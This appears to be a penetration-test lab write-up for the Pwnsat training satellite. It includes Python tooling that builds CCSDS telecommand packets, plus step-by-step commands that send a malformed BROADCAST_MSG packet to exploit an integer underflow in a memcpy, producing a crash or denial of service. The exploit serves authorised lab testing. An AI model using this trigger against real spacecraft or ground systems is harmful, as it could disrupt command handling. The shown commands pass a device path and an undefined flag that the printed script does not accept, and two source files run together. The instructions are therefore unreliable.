

# USB interface audtoring

## Scenario

El cliente nos solicita volver a realizar el test para validar el funcionamiento de su satelite utilizando las interfaces usb como simulacion del canal de radifrecuencia

## Frame
- **Access:** White box
- **Environment:** Static/Offline Analysis, Dinamic

## Tooling

```python

"""Small Space Packet Protocol helpers for the Pwnsat booklet exercises."""

from __future__ import annotations

import struct
from dataclasses import dataclass


APIDS = {
    0x01: "PING",
    0x02: "RESETC",
    0x03: "SEND_FW",
    0x04: "SET_THRUSTER",
    0x05: "SET_BEACON_RATE",
    0x06: "BROADCAST_MSG",
    0x07: "FLASH",
    0x08: "SEND_TM",
    0x7FF: "IDLE",
}


SEQ_FLAGS = {
    0b00: "Continuation",
    0b01: "First segment",
    0b10: "Last segment",
    0b11: "Unsegmented",
}


@dataclass
class DecodedPacket:
    raw: bytes
    version: int
    packet_type: int
    secondary_header: int
    apid: int
    sequence_flags: int
    sequence_count: int
    length_field: int
    data_field_size: int
    data: bytes
    trailing: bytes

    @property
    def packet_type_name(self) -> str:
        return "TM" if self.packet_type == 0 else "TC"

    @property
    def apid_name(self) -> str:
        return APIDS.get(self.apid, "UNKNOWN")


def build_primary_header(
    apid: int,
    packet_type: int = 1,
    sequence_count: int = 0,
    data_len: int = 0,
    sequence_flags: int = 0b11,
    secondary_header: int = 0,
) -> bytes:
    """Build a CCSDS-style SPP primary header.

    `data_len` is the CCSDS length field value, not the raw payload size.
    A value of 0 means the packet declares one byte of data.
    """
    packet_id = 0
    packet_id |= (0 & 0x7) << 13
    packet_id |= (packet_type & 0x1) << 12
    packet_id |= (secondary_header & 0x1) << 11
    packet_id |= apid & 0x7FF

    sequence = 0
    sequence |= (sequence_flags & 0x3) << 14
    sequence |= sequence_count & 0x3FFF

    return struct.pack(">HHH", packet_id, sequence, data_len & 0xFFFF)


def build_tc(apid: int, payload: bytes = b"", sequence_count: int = 1) -> bytes:
    """Build a basic telecommand packet.

    CCSDS stores data field size minus one. Empty payloads are represented by a
    zero-length field in many exercise builders, but strict CCSDS packets have at
    least one data byte. This helper mirrors the lab style and uses max(len-1, 0).
    """
    length_field = max(len(payload) - 1, 0)
    return build_primary_header(
        apid=apid,
        packet_type=1,
        sequence_count=sequence_count,
        data_len=length_field,
    ) + payload

def build_tm(apid: int, payload: bytes = b"", sequence_count: int = 1) -> bytes:
    """Build a basic telemetry packet.

    CCSDS stores data field size minus one. Empty payloads are represented by a
    zero-length field in many exercise builders, but strict CCSDS packets have at
    least one data byte. This helper mirrors the lab style and uses max(len-1, 0).
    """
    length_field = max(len(payload) - 1, 0)
    return build_primary_header(
        apid=apid,
        packet_type=0,
        sequence_count=sequence_count,
        data_len=length_field,
    ) + payload

def decode_packet(raw: bytes) -> DecodedPacket:
    if len(raw) < 6:
        raise ValueError("SPP packet must contain at least a 6-byte primary header")

    packet_id, sequence, length_field = struct.unpack_from(">HHH", raw, 0)
    version = (packet_id >> 13) & 0x7
    packet_type = (packet_id >> 12) & 0x1
    secondary_header = (packet_id >> 11) & 0x1
    apid = packet_id & 0x7FF
    sequence_flags = (sequence >> 14) & 0x3
    sequence_count = sequence & 0x3FFF
    data_field_size = length_field + 1
    expected_total = 6 + data_field_size
    data = raw[6:expected_total]
    trailing = raw[expected_total:]

    return DecodedPacket(
        raw=raw,
        version=version,
        packet_type=packet_type,
        secondary_header=secondary_header,
        apid=apid,
        sequence_flags=sequence_flags,
        sequence_count=sequence_count,
        length_field=length_field,
        data_field_size=data_field_size,
        data=data,
        trailing=trailing,
    )


def hexdump(data: bytes, width: int = 16) -> str:
    lines = []
    for offset in range(0, len(data), width):
        chunk = data[offset : offset + width]
        hex_bytes = " ".join(f"{byte:02X}" for byte in chunk).ljust(width * 3)
        ascii_bytes = "".join(chr(byte) if 32 <= byte <= 126 else "." for byte in chunk)
        lines.append(f"{offset:08X}  {hex_bytes}  {ascii_bytes}")
    return "\n".join(lines)


def print_packet(raw: bytes) -> DecodedPacket:
    packet = decode_packet(raw)
    print("=========== Space Packet ===========")
    print(f"Version:              {packet.version}")
    print(f"Type:                 {packet.packet_type} ({packet.packet_type_name})")
    print(f"Secondary Header:     {packet.secondary_header}")
    print(f"APID:                 0x{packet.apid:03X} ({packet.apid_name})")
    print(
        f"Sequence Flags:       0b{packet.sequence_flags:02b} "
        f"({SEQ_FLAGS.get(packet.sequence_flags, 'Unknown')})"
    )
    print(f"Sequence Count:       {packet.sequence_count}")
    print(f"Length Field:         {packet.length_field}")
    print(f"Data Field Size:      {packet.data_field_size}")
    print(f"Captured Bytes:       {len(raw)}")
    print()
    print("[HEADER]")
    print(hexdump(raw[:6]))
    if packet.data:
        print()
        print("[DATA]")
        print(hexdump(packet.data))
    if packet.trailing:
        print()
        print("[TRAILING]")
        print(hexdump(packet.trailing))
    return packet


from __future__ import annotations

import argparse
import socket
import sys
from pathlib import Path

SCRIPT_DIR = Path(__file__).resolve().parent
sys.path.insert(0, str(SCRIPT_DIR))

from spp_tools import build_tc, print_packet


APID_NAMES = {
    "ping": 0x01,
    "reset": 0x02,
    "fw": 0x03,
    "thruster": 0x04,
    "beacon": 0x05,
    "broadcast": 0x06,
    "flash": 0x07,
}


def parse_hex_bytes(value: str) -> bytes:
    cleaned = value.replace(" ", "").replace(":", "").replace(",", "")
    if len(cleaned) % 2 != 0:
        raise argparse.ArgumentTypeError("hex payload must contain complete bytes")
    try:
        return bytes.fromhex(cleaned)
    except ValueError as exc:
        raise argparse.ArgumentTypeError(str(exc)) from exc


def frame_usb(raw_spp: bytes) -> bytes:
    return b"\xAA\x55" + len(raw_spp).to_bytes(2, "big") + raw_spp


def build_payload(args: argparse.Namespace) -> bytes:
    if args.payload_hex is not None:
        return args.payload_hex
    if args.command == "thruster":
        return bytes([args.thruster_id, args.power])
    if args.command == "beacon":
        return bytes([args.seconds, 0x00])
    if args.command == "broadcast":
        return args.frequency.to_bytes(2, "big") + args.message.encode()
    return b""


def send_frame(host: str, port: int, frame: bytes, timeout: float) -> bytes:
    with socket.create_connection((host, port), timeout=timeout) as sock:
        sock.settimeout(timeout)
        sock.sendall(frame)
        sock.shutdown(socket.SHUT_WR)
        received = bytearray()
        while True:
            try:
                chunk = sock.recv(4096)
            except TimeoutError:
                break
            if not chunk:
                break
            received.extend(chunk)
    return bytes(received)


def main() -> int:
    parser = argparse.ArgumentParser(description="Send Pwnsat simulator telecommands over TCP")
    parser.add_argument("--host", default="127.0.0.1")
    parser.add_argument("--port", type=int, default=31337)
    parser.add_argument("--timeout", type=float, default=2.0)
    parser.add_argument("--command", choices=sorted(APID_NAMES), required=True)
    parser.add_argument("--payload-hex", type=parse_hex_bytes)
    parser.add_argument("--raw-spp-hex", type=parse_hex_bytes)
    parser.add_argument("--seq", type=int, default=1)
    parser.add_argument("--thruster-id", type=int, default=0)
    parser.add_argument("--power", type=int, default=80)
    parser.add_argument("--seconds", type=int, default=1)
    parser.add_argument("--frequency", type=lambda value: int(value, 0), default=0x01B8)
    parser.add_argument("--message", default="Pwnsat")
    parser.add_argument("--repeat", type=int, default=1)
    parser.add_argument("--dry-run", action="store_true")
    args = parser.parse_args()

    if args.raw_spp_hex is not None:
        raw_spp = args.raw_spp_hex
    else:
        payload = build_payload(args)
        raw_spp = build_tc(APID_NAMES[args.command], payload, args.seq)
    frame = frame_usb(raw_spp)

    print("[raw SPP]")
    print(raw_spp.hex())
    try:
        print_packet(raw_spp)
    except ValueError as exc:
        print(f"decode error: {exc}")
    print()
    print("[TCP USB framed]")
    print(frame.hex())

    if args.dry_run:
        return 0

    for index in range(args.repeat):
        if args.repeat > 1:
            print()
            print(f"[send {index + 1}/{args.repeat}]")
        response = send_frame(args.host, args.port, frame, args.timeout)
        print()
        print("[simulator response]")
        print(response.decode(errors="replace").rstrip())

    return 0


if __name__ == "__main__":
    raise SystemExit(main())

```

## Execution

**Target:** APID `0x06`, malformed BROADCAST_MSG.

**Purpose:** Trigger the strongest memory-corruption candidate identified in the firmware review.

**Vulnerable Logic:**

```text
payload_total = space_packet->header.length + 1
msg_len = payload_total - 2
memcpy(buffer_msg, space_packet->data + 2, msg_len)
```

The handler assumes the data field contains at least two bytes for the frequency. If `payload_total < 2`, `msg_len` underflows because it is an unsigned `size_t`.

**Minimal Trigger Idea:**

Use APID `0x06` with a declared data field smaller than the two-byte frequency requirement.

The base harness example:

```python
tc_header = SpHeader.tc(apid=6, seq_count=5, data_len=0)
telecommand = tc_header.pack()
```

This produces a TC packet targeting APID `0x06` with the smallest possible data-field size according to the `spacepackets` builder semantics.

The notebook exercise does not transmit this payload. It decodes the packet fields and asks the reader to reason about why the handler's `payload_total - 2` calculation is unsafe.

**USB Reproduction:**

1. Reproduce the well-formed broadcast case first so the command path is known to work.
2. Build the malformed minimum-length APID `0x06` packet without sending it:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command broadcast --payload-hex 00 --dry-run
   ```

3. Confirm the decoded packet targets `APID: 0x006` and has only one payload byte available to the handler.
4. Attach debug serial logging. If possible, also attach SWD or another crash-triage method before sending.
5. Send the malformed packet once:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command broadcast --payload-hex 00 --read-seconds 0.2
   ```

6. Observe whether the board logs an error, resets, crashes, hangs, or continues normally.
7. If the board remains stable, test nearby lengths: `--payload-hex 0000`, then `--payload-hex 000048`. The two-byte case should satisfy the frequency field and the three-byte case adds one message byte.
8. Do not claim code execution from this test alone. Record it as memory-corruption reachability unless debugger evidence shows control of execution.



**Expected Observations:**

- Crash, reset, corrupted behavior, or abnormal logs.
- If a debugger is attached, inspect fault address and stack state.
- If no crash occurs, compare parser behavior and builder `data_len` semantics carefully.

> **Note:** In the current lab build, this trigger can affect the USB command-handling core. After the underflow, the board may stop accepting new USB commands until it is reset or re-enumerated.

**Impact:**

This is a memory-corruption primitive reachable from the command path. It should be described as a candidate for RF-triggered code execution until a debugger trace proves control of execution.

## Findings
La libreria cuenta con un DOS en el APID 0x06

## SPARTA

- `EX-0013.02 Erroneous Input`
- `EX-0001.01 Command Packets`
- `IA-0008.01 Rogue Ground Station`, when delivered over RF.